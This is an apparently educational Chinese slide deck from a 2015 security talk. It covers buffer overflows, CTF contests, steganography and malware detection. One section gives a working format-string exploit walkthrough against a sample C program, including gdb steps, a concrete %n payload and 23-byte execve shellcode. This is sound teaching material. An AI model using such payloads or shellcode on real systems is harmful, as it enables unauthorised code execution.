








class: center, middle

# 資安是什麼?

趨勢科技&nbsp;&nbsp;林哲民  
.small[2015.11.19 / CC BY-SA 3.0 TW]

---
# Agenda

* Buffer Overflow
* Shell Code
* CTF (Capture the Flag)
* 所謂的大數據
* 資安是什麼，能吃嗎？

.footnote[.red[歡迎連上 SSID: FreeWiFi]]

---
# Buffer Overflow

- 先看看程式，有什麼問題？

```C
#include <stdio.h>
#include <string.h>

#define BUF_SIZE 1024

int main(int argc, char **argv) {
	char buf[BUF_SIZE];
	if(argc < 2) return 1;

	strncpy(buf, argv[1], BUF_SIZE-1);
	printf(buf);

	return 0;
}
```

.footnote[參考資料: [A Stack Based Buffer Overflow](http://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html)]

---
# Buffer Overflow

- 關掉 ASLR.  這個漏洞只能在沒有 ALSR、沒有堆疊保護、堆疊可執行的情況下才能使用

- 在 stack 裡找到 AAAA 
  `./printf 'AAAA%4$p'`

- 丟一個 EGG 到環境變數區 
  `export buf= <shellcode>`

### 什麼？不知道 printf() 的參數？

- Google it.

- .red[`man 3 printf`]

---
# Buffer Overflow

- 想辦法讓程式跳到 shell code 去執行

- `objdump -h printf` 得到 .fini.array 的位址 `0x0804960c`

```
$ gdb ./printf
(gdb) b main              設定中斷點 #1
(gdb) disasm main         反組譯，找到 printf()
(gdb) b (printf)          設定中斷點 #2
(gdb) r 'AAAA%4$p'        開始執行，停在中斷點 #1
(gdb) c                   繼續執行，停在中斷點 #2
(gdb) x/20s $ebp          尋找 buf=
```

- 用 python 算一下 offset

```
(gdb) r $'\x4c\x96\x04\x08\x4e\x96\x04\x08%56888c%4$n%8639c%5$n'
(gdb) c                   執行到程式結束
```

---
# Buffer Overflow

- 回到 console 下再做一次:

```bash
./printf $'\x4c\x96\x04\x08\x4e\x96\x04\x08%56888c%4$n%8639c%5$n'
```

- 打完收工


---
# Shell Code? (AT&T 格式)

`execve(const char *filename, char *const argv[], char *const envp[]);`

```assembly
xor    %eax,%eax          ; eax 清為 0
push   %eax               ; 00000000 (字串結束的 '\0')
push   $0x68732f2f        ; 68732f2f    hs//
push   $0x6e69622f        ; 6e69622f    nib/
mov    %esp,%ebx          ; ebx  => filename
push   %eax               ;      NULL => argv[1]
push   %ebx               ;      *1   => argv[0]
mov    %esp,%ecx          ; ecx = (char **argv)
mov    $0xb,%al           ; 11 (sys_execve)
int    $0x80              ; edx = envp 這裡沒指定
```

.footnote[參考資料: [ShellCode 23 bytes](http://shell-storm.org/shellcode/files/shellcode-827.php)]


---
# 組合語言 (Intel 格式)

`execve(const char *filename, char *const argv[], char *const envp[]);`

```assembly
 0:   31 c0             xor    eax,eax     ; eax 清為 0
 2:   50                push   eax         ; 00000000 (字串結束的 '\0')
 3:   68 2f 2f 73 68    push   0x68732f2f  ; 68732f2f    hs//
 8:   68 2f 62 69 6e    push   0x6e69622f  ; 6e69622f    nib/
 d:   89 e3             mov    ebx,esp     ; ebx  => filename
 f:   50                push   eax         ;      NULL => argv[1]
10:   53                push   ebx         ;      *1   => argv[0]
11:   89 e1             mov    ecx,esp     ; ecx = (char **argv)
13:   b0 0b             mov    al,0xb      ; 11 (sys_execve)
15:   cd 80             int    0x80        ; edx = envp 這裡沒指定
```

.footnote[參考資料: [ShellCode 23 bytes](http://shell-storm.org/shellcode/files/shellcode-827.php)]


---
# 肇因於 Buffer Overflow 的漏洞

- 2015 年 203 個
- 1999 - 現在 7,408 個
- CVE-2015-0014	Buffer overflow in the Telnet service in Microsoft Windows Server 2003 SP2
- CVE-2015-0120	Buffer overflow in the FastBackMount process in IBM Tivoli Storage Manager ...
- CVE-2015-0134	Buffer overflow in the SSLv2 implementation in IBM Domino 8.5.x before 8.5.1 FP5 IF3
- CVE-2015-0235	Heap-based buffer overflow in the `__nss_hostname_digits_dots` function in glibc 2.2
- CVE-2015-0247	Heap-based buffer overflow in openfs.c in the libext2fs library in e2fsprogs ...
- CVE-2015-0292	Integer underflow in the EVP_DecodeUpdate function in crypto/evp/encode.c ...
- CVE-2015-0304	Heap-based buffer overflow in Adobe Flash Player ...

.footnote[查詢: [MITRE CVE DB](http://cve.mitre.org/data/downloads/index.html)]

---
# CTF - Capture the Flag

- 熱血限時的比賽 (36 / 48 / 72 小時)
- ~~根本沒時間~~ 吃pizza大會
- Jeopardy vs. Attack/Defense

### 類型

- Pwnable (Binary)
- Reverse (Binary)
- Web
- Forensic
- Cryptography / Steganography
- Misc

---
## Steganography (plaidCTF 2014)


---
## Steganography


---
## Steganography (Lena)


.footnote[Note: 使用 [LSB編碼工具](https://github.com/RobinDavid/LSB-Steganography)]

---
## Steganography (plaidCTF 2014)



---
## Steganography



---
## Steganography (Lena)



注意 ~~RGB~~ BGR 的順序

---
## 還有很多藏東西的方法

- Brainfuck + Lena
- 傅利葉轉換
- ...


---
## Brainfuck

| 字符 | 含義     |
| ---- | -------- |
| >    | 指標加一 |
| <    | 指標減一 |
| +    | 指標指向的位元組的值加一 |
| -    | 指標指向的位元組的值減一 |
| .    | 輸出指標指向的單元內容（ASCII碼）|
| ,    | 輸入內容到指標指向的單元（ASCII碼）|
| [    | 如果指標指向的單元值為零，向後跳轉到對應的]指令的次一指令處 |
| ]    | 如果指標指向的單元值不為零，向前跳轉到對應的[指令的次一指令處 |


---
## Brainfuck in C

| Brainfuck | C         |
| --------- | --------- |
| >         | `++ptr;`  |
| <         | `--ptr;`  |
| +         | `++*ptr;` |
| -         | `--*ptr;` |
| .         | `putchar(*ptr);` |
| ,         | `*ptr =getchar();` |
| [         | `while (*ptr) {` |
| ]         | `}`       |

.footnote[出處: [Wikipedia](https://zh.wikipedia.org/wiki/Brainfuck)]

---
## Brainfuck one-liner

.footnote[取自: http://www.cs.princeton.edu/~ynaamad/misc/bf.htm]
- ~~噁心~~ 開心的 one-liner

```python
(lambda t:(lambda a:(lambda b:(lambda l,e,s:((lambda(Y,o,N,A,t),a,n:e('v',
(Y,o,N,A,t))or[e('v',(lambda(Y,o,N,A,t):({'>':(lambda(Y,o,N,A,t),a,n:(Y,o,
N+1,A+1,t)),'<':(lambda(Y,o,N,A,t),a,n:(Y,o,N-1,A+1,t)),'+':(lambda(Y,o,N,
A,t),a,n:((Y[:N]+[Y[N]+1]+Y[N+1:],o,N,A+1,t)if N>=0 else(Y,o[:-N-1]+
[o[-N-1]+1]+o[-N:],N,A+1,t))),'-':(lambda(Y,o,N,A,t),a,n:((Y[:N]+[Y[N]-1]+
Y[N+1:],o,N,A+1,t)if N>=0 else(Y,o[:-N-1]+[o[-N-1]-1]+o[-N:],N,A+1,t))),'.':
(lambda(Y,o,N,A,t),a,n:__import__('sys').stdout.write(chr(Y[N] if N>=0 else 
o[-N-1]))or(Y,o,N,A+1,t)),',':(lambda(Y,o,N,A,t),a,n:(Y[:N]+[ord(t[0])if 
len(t)else -1]+Y[N+1:]if A>=0 else Y,o[:-N-1]+[ord(t[0])if len(t)else -1]+
o[-N:]if A<0 else o,N,A+1,t[1:])),'[':(lambda(Y,o,N,A,t),a,n:(Y,o,N,n[A]+1 
if(Y[N]==0 if N>=0 else o[-N-1]==0)else A+1,t)),']':(lambda(Y,o,N,A,t),a,n:
(Y,o,N,n[A]+1 if(Y[N]>=1 if N>=0 else o[-N-1]>=1)else A+1,t))}[a[A]]((Y+[0]*
(9+len(Y)) if A>=len(Y)-5 else Y,o+[0]*(9+len(o)) if -A>=len(o)-5 else o,N,A,
t),a,n)if A<len(a)else False))(l('v')))for i in s.takewhile(lambda x:l('v')!=
False,s.count())])(([],[],0,0,t),a,dict(e('g',[])or e('l',[])or[e('l',l('l')+
[i])if a[i]=='['else(e('g',l('g')+[(l('l')[-1],i),(i,l('l')[-1])])or e('l',
l('l')[:-1]))for i in range(len(a))if a[i] in'[]'][:0]or l('g'))))[:0])(b.
__getattribute__,b.__setattr__,__import__('itertools')))(lambda:a)or None)(
filter("<.+[,->]".count,open(__import__('sys').argv[1]).read())))(raw_input())
```

---
## 所以，Lena 呢？

.footnote[參考資料: [Steganography with Brainfuck](http://imrannazar.com/Steganography-with-Brainfuck)]


---
## 把 < > + - . , [ ] 留下來就好

```brainfuck
>>++++++++[<+++[<+++++>-]>-]
<<[>+>+>+>+>+<<<<<-]++++++++
[>->-->--->---->-----<<<<<-]
<++++[>++++++++<-]>>>>>>++++.
<<<.>+++++.<<<.>>+++++.++.-.
---.>.<<+++++++++.<.>>--.<------.
<.>>.+++++.<<.>+.>------.>.
<<<.>>>-.<+.<-.>-.<++++.>>---.
<<----.>.>++++.<<-.
```

你得到:

```bash
$ python bf.py bf-bmp-final.bf
The monkey is in the dishwasher
```


---
## 也有藏在頻域的做法

- 因為太複雜了
- 我也不懂 FFT
- 直接看範例吧!



.footnote[出處: Rootcon9 CTF]


---
# 對 CTF 有興趣的話...

- http://217.logdown.com/ 高手們的筆記本
- https://ctftime.org/    每個月有哪些 CTF, 以及賽後的 write-up
- http://bitvijays.github.io/blog/2014/11/09/learning-from-ctf-binary-exploitation/


- 還有很多, Google 就有了


---
# 傳說中的大數據

- 怎麼知道檔案 / 網頁有毒?




---

# 每天 2 TB 很大嗎?
- 平行化處理
- 業務機密，請勿拍照/攝影/錄音


.footnote[取自: http://blog.trifork.com//wp-content/uploads/2009/08/MapReduceWordCountOverview1.png]


---
# web.ck.tp.edu.tw 的 histogram




---
# web.ck.tp.edu.tw 的 IP




---
# 即時監控

- 業務機密，請勿拍照/攝影/錄音
- [國防布~]


---
# 資安是什麼，能吃嗎？

- 上班爽爽看報
  - [The Hacker News](http://thehackernews.com/)
  - [烏雲](http://www.wooyun.org/)
  - 各大論壇

- 不斷出國~~渡假~~開會

- 動動筆、打打嘴炮
  - [Hitcon 2015 ENT: Building Automation and Control](http://hitcon.org/2015/ENT/Activities-Enterprise-Agenda.html#buildingAutomation)
  - [Hitcon 2015 CMT: Your Lightbulb Is Not Hacking You](http://hitcon.org/2015/CMT/agenda/)
  - http://blog.trendmicro.com/trendlabs-security-intelligence/
  - [Hackting Team uses UEFI BIOS Rootkit ...](http://blog.trendmicro.com/trendlabs-security-intelligence/hacking-team-uses-uefi-bios-rootkit-to-keep-rcs-9-agent-in-target-systems/)

- 玩玩 Arduino 、焊焊電路板


---




---
# 參考資料

- 棉羊牆 https://github.com/John-Lin/wallofsheep
- http://www.tenouk.com/Bufferoverflowc/Bufferoverflow4.html
- http://shell-storm.org/shellcode/files/shellcode-827.php
- https://github.com/RobinDavid/LSB-Steganography
- http://imrannazar.com/Steganography-with-Brainfuck
- https://zh.wikipedia.org/wiki/Brainfuck
- http://www.cs.princeton.edu/~ynaamad/misc/bf.htm
- https://www.internationalphoneticassociation.org/content/ipa-handbook-downloads
- http://217.logdown.com/
- https://ctftime.org/
- http://bitvijays.github.io/blog/2014/11/09/learning-from-ctf-binary-exploitation/


---
# 參考資料

- http://blog.trifork.com//wp-content/uploads/2009/08/MapReduceWordCountOverview1.png
- http://thehackernews.com/
- http://www.wooyun.org/
- http://hitcon.org/2015/ENT/Activities-Enterprise-Agenda.html#buildingAutomation
- http://hitcon.org/2015/CMT/agenda/
- http://blog.trendmicro.com/trendlabs-security-intelligence/
- http://cve.mitre.org/data/downloads/index.html
- http://qiita.com/harasou/items/1fa3cca6ac1ef175c876


---
class: center, middle

# Questions?

.small[philippe_z_lin@trend.com.tw]

.footnote[本投影片使用 [remark.js](http://remarkjs.com/) 製作。]
